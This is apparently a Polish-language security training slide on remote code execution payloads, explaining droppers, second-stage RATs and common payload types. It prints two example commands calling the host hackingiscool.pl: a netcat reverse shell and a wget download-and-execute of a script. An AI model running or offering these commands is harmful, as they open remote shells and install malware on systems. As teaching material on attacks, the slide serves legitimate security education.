

# Eksploitacja RCE - payload
Obydwa pokazane wcześniej przykłady komend użytych przy eksploitacji, tj.:
nc -e /bin/bash hackingiscool.pl 4444
wget https://hackingiscool.pl/update.sh -O /tmp/update.sh; chmod +x /tmp/update.sh; /tmp/update.sh
w kontekście eksploitacji określa się jako payload (z ang. "ładunek").

Payload wykonujący czynność download & exec często określa się terminem dropper/first stage, służy on dostarczeniu do atakowanego systemu właściwego złośliwego programu.
Program pobrany i wykonany w wyniku download & exec to tzw. second stage (najczęściej jakaś forma RAT z funkcją reverse shella).
Zarówno payload jak i second stage zaliczamy do malware.
Stosowane payloady:
download & exec (najczęściej),
dodanie nowego użytkownika,
odczyt konkretnego pliku (np. z hasłem/wrażliwą konfiguracją/bazą danych),
inna pojedyncza komenda.